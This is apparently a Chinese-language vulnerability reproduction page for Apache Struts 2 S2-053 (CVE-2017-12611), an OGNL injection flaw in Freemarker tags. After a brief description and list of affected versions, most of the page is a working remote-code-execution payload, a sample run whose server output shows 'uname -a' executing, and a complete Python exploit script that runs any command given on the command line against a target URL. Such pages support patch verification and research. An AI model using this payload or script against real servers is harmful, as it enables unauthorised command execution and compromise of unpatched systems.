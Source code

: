（CVE-2017-12611）S2-053
========================

一、漏洞简介
------------

在一定条件下，当开发人员在Freemarker标签中使用错误的构造时，可能会导致远程代码执行漏洞

二、漏洞影响
------------

Struts 2.0.1 - 2.3.33Struts 2.5 - 2.5.10

三、复现过程
------------

### poc

    %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

注意：执行命令的地方在于(\#cmd='whoami')

### python poc

#### Usage

    exploit.py <url> <param> <command>

#### Example

    $ python s2-053-exploit.py "http://127.0.0.1" "name" "uname -a"
    [*] Generated EXP: http://127.0.0.1/?name=%25%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23_memberAccess%3F%28%23_memberAccess%3D%23dm%29%3A%28%28%23container%3D%23context%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ognlUtil%3D%23container.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ognlUtil.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ognlUtil.getExcludedClasses%28%29.clear%28%29%29.%28%23context.setMemberAccess%28%23dm%29%29%29%29.%28%23cmd%3D%27uname%20-a%27%29.%28%23iswin%3D%28%40java.lang.System%40getProperty%28%27os.name%27%29.toLowerCase%28%29.contains%28%27win%27%29%29%29.%28%23cmds%3D%28%23iswin%3F%7B%27cmd.exe%27%2C%27/c%27%2C%23cmd%7D%3A%7B%27/bin/bash%27%2C%27-c%27%2C%23cmd%7D%29%29.%28%23p%3Dnew%20java.lang.ProcessBuilder%28%23cmds%29%29.%28%23p.redirectErrorStream%28true%29%29.%28%23process%3D%23p.start%28%29%29.%28%40org.apache.commons.io.IOUtils%40toString%28%23process.getInputStream%28%29%29%29%7D

    [*] Exploiting...
    [+] Response: <html>
    <head>
    <title>S2-053 Demo</title>
    </head>
    <body>
    <h1>S2-053 Demo</h1>
    <hr />
    Your name: Linux a66c177c2326 4.4.0-70-generic ;jsessionid=64A259D92EC63543AD72E6AA847319C9#91-Ubuntu SMP Wed Mar 22 12:47:43 UTC 2017 x86_64 GNU/Linux

    <hr />
    Enter your name here:<br />
    <form action="" method="get">
    <input type="text" name="name" value="" />
    <input type="submit" value="Submit" />
    </form>
    <br /><br /><br />
    <p>See more at: <a href="https://github.com/Medicean/VulApps/tree/master/s/struts2/s2-053">VulApps - S2-053</a></p>
    </body>
    </html>

    [+] Exploit Finished!

#### exploit.py

    import requests
    import sys
    from urllib import quote

    def exploit(url):
        res = requests.get(url, timeout=10)
        if res.status_code == 200:
            print "[+] Response: {}".format(str(res.text))
            print "\n[+] Exploit Finished!"
        else:
            print "\n[!] Exploit Failed!"

    if __name__ == "__main__":
        if len(sys.argv) != 4:
            print """****S2-053 Exploit****
    Usage:
        exploit.py <url> <param> <command>
    Example:
        exploit.py "http://127.0.0.1/" "name" "uname -a"
            """
            exit()
        url = sys.argv[1]
        param = sys.argv[2]
        command = sys.argv[3]
        #payload = "%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+command+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"""
        # Can show the echo message
        payload = "%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+command+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}"
        link = "{}/?{}={}".format(url, param, quote(payload))
        print "[*] Generated EXP: {}".format(link)
        print "\n[*] Exploiting..."
        exploit(link)
